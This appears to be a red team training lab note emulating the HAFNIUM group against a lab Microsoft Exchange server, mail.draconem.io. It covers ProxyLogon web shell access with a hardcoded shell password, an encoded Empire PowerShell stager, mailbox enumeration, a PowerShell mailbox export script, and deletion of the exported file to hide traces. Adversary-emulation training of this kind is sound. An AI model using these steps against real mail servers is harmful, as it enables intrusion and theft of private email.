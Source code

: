 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Create interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`

![[Pasted image 20240324032203.png]]

![[Pasted image 20240324032430.png]]

### Enumerate Users
- *Goal:* Pick up target intelligence from user email
- The `Microsoft.Exchange.Management.Powershell.SnapIn` that will allow us use additional PowerShell functions and cmdlets that interact with Microsoft Exchange
```markdown
# Enumerate the users with mailboxes
powershell -c "Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn; Get-Recipient | Format-Table -Auto Alias"
```
![[Pasted image 20240324033515.png]]
### Export User Emails
*Goal:* The PS script will leverage Exchange SnapIn, sets an output file and then exports the user's email to a PST file. 
- Create the file on Slingshot Linux at `/labs/sec-3/initial-access/export-email.ps1`
- Note: These commands need to run as a script because there are some inconsistencies with stating UNC paths
```powershell
function Export-Email {
    param (
        $User
    )
    Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn;
    $OutFile = "\\127.0.0.1\c$\ProgramData\" + $User + ".pst";
    New-MailboxExportRequest -Mailbox $User -FilePath $OutFile;
};
```
We will invoke this script with an Empire module called *invoke_script*. 
- Interact with your agent, select `powershell/management/invoke_script` from the Execute Module drop down list.
- Then enter the following values:

	    ScriptCmd: Export-Email Mark.Goodwin
	    ScriptPath: /labs/sec-3/initial-access/export-email.ps1

![[Pasted image 20240324033656.png]]

- There are many ways to complete a task but these commands mimic the same techniques used by HAFNIUM, the adversary we are emulating.

![[Pasted image 20240324035153.png]]
### Read User Emails
1. Download the exported mailbox by clicking the down arrow icon in the upper right of the agent screen. 
2. The file should be located at `c:\ProgramData\Mark.Goodwin.pst` 
3. After downloading the file delete it off the mail server by issuing this shell command `del c:\ProgramData\Mark.Goodwin.pst`
```markdown
### Exxample the PST using readpst
## Find the PST file in our Agent download directory & Copy it
cd /labs/sec-3/initial-access/

find /opt/Empire/empire/server/downloads/ | grep pst

cp /opt/Empire/empire/server/downloads/*/C:/ProgramData/Mark.Goodwin.pst .

readpst -S -o . Mark.Goodwin.pst
```
#### Notes | Bonus


## Conclusion